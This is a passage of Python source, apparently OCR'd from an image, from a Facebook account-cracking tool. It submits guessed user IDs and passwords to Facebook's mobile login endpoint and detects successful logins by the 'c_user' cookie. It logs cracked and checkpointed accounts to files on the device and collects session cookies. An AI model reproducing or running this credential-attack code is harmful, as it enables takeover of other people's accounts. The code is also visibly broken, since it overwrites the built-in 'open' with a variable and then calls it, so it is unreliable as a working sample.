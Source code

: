                         idpass ={"lsd":re.search(f'name="lsd" value="(.*?)"', str(getlog.text)).group(1),"jazoest":re.search(f'name="jazoest" value="(.*?)"', str(getlog.text)).group(1),"uid":ids,"next":"https://mbasic.facebook.com/login/save-device/","flow":"login_no_pin","pass":pas,}
                        complete = session.post(f'https://mbasic.facebook.com/login/device-based/validate-password/?shbl=0',data=idpass,allow_redirects=False,headers=head)
                        open=session.cookies.get_dict().keys()
                        if "c_user" in open:
                                coki=session.cookies.get_dict()
                                kuki = (f";").join([ "%s=%s" % (key, value) for key, value in session.cookies.get_dict().items() ])
                                print(f'\r\r\033[1;32m [open\033[1;36m•\033[1;37m\033[1;32mOK] %s \033[1;36m•\033[1;37m\033[1;32m %s'%(ids,pas))
                                open(f'/sdcard/open•OK•M2.txt', 'a').write(ids+'|'+pas+'\n')
                                oks.append(ids)
                                break
                        elif 'checkpoint' in open:
                                if 'y' in pcp:
                                        print(f'\r\r\x1b[38;5;208m [open•CP] '+ids+' • '+pas+'\033[1;97m')
                                        open(f'/sdcard/open•CP.txt', 'a').write(ids+'|'+pas+'\n')
                                        cps.append(ids)
                                        break
                                else:
                                        break
                        else:
                                continue
        except requests.exceptions.ConnectionError:
                time.sleep(20)
        loop+=1
main()
